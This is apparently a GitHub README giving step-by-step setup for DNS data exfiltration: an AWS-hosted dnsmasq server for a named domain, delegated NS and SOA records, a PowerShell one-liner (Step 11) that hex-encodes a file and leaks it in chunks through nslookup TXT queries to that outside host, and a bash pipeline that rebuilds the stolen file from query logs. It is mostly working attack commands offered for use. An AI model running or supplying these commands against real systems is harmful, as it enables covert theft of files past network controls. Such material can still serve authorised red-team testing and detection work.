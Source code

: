 # DNS_Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Logging will contain DNS requests with encoded information

## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

## Step 4: Install dnsmasq and configure it
sudo yum install dnsmasq  
sudo nano /etc/dnsmasq.conf then input the content below, right at the bottom of the config file  
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or find a way to restart dnsmasq (sudo systemctl restart systemd-networkd.service)  

sudo dnsmasq  

## Step 5: Note down default SOA and NS records, then remove them
**Record Name:** bhealthen.com  
**Type:** SOA  
**Value:** ns-1714.awsdns-22.co.uk. awsdns-hostmaster.amazon.com. 1 7200 900 1209600 86400  
**TTL:** 900  

**Record Name:** bhealthen.com  
**Type:** NS  
**Value:**  
ns-1714.awsdns-22.co.uk.  
ns-1071.awsdns-05.org.  
ns-577.awsdns-08.net.  
ns-113.awsdns-14.com.  
**TTL:** 172800  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/f096c51f-a06d-4df4-b8a9-e1ad61579d8f)

## Step 6: Create A Record to point from record name to your EC2 instance
**Record Name:** ns1.bhealthen.com  
**Type:** A  
**Value:** 54.179.112.60
**TTL:** 300  

**Record Name:** ns2.bhealthen.com  
**Type:** A  
**Value:** 54.179.112.60
**TTL:** 300  

## Step 7: Modify existing NS Record to point to your EC2 instance
**Record Name:** bhealthen.com  
**Type:** NS  
**Value:**  
ns1.bhealthen.com  
ns2.bhealthen.com  
**TTL:** 60  

## Step 8: Modify existing SOA record to point to your EC2 instance
**Record Name:** bhealthen.com  
**Type:** SOA  
**Value:** ns1.bhealthen.com. admin.bhealthen.com 1 7200 900 1209600 86400  
**TTL:** 60  

## Step 9: Use CMD to nslookup as a test
nslookup -q=TXT 12332145343dafdsa234234123123453asdf234sadfsadfasdf ns1.bhealthen.com  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/79dc6562-8f73-41bd-89ac-9db7701c0946)


## Step 10: Check your DNS logs in EC2
sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/ff2684c5-136f-4ab2-8da7-88c17f0aa1a2)


## Step 11: Powershell command to hex encode a file, split, and do nslookup IMPROVEMENT POINT TO REMOVE encoded.hex

certutil -encodehex ToExfil.txt encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.bhealthen.com" ns1.bhealthen.com; sleep 5}  

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/17905ffc-ee42-4f8d-b801-7f837d3da555)


## Step 12: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing

sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 7 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output
sudo cat output | xxd -p -r > SecretFile.txt | cat SecretFile.txt

![image](https://github.com/benlee105/DNS_Exfil/assets/62729308/68856338-b515-43e4-a873-d86df3ca9b27)

